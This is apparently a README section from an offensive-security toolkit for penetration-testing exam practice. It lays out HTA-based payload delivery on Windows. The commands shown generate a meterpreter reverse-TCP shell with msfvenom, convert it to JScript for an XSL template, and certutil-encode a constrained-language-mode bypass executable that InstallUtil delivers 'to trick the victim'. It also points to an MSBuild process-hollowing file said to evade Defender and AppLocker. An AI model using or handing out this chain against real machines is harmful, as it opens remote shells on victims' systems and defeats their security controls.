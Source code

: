 ### <ins>XSL Transform (xsl.hta)</ins>

- Create shellcode using msfvenom: `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f raw -o output/shell.txt` 
- Convert to JS using SuperSharpShooter: `python3 SuperSharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile shell.txt --output test` 
- Embed the JS content inside the `template.xsl` template file. 

### <ins>InstallUtil (installutil-template.hta)</ins>
- Compile C# executable that uses Custom Powershell Runspace.
- Convert the outputted EXE to txt using certutil: `certutil -encode clm-bypass.exe file.txt`
- Use the InstallUtil template to trick the victim to download the file.txt file and let the magic happen.

### <ins>MSBuild (msbuild.hta)</ins>
- Use the file [Hollow.xml]([url](https://github.com/Extravenger/OSEP-Combat/blob/main/CLM-Bypass/MSBuild/Hollow.xml)). (Bypass defender and Applocker defautlt rules)
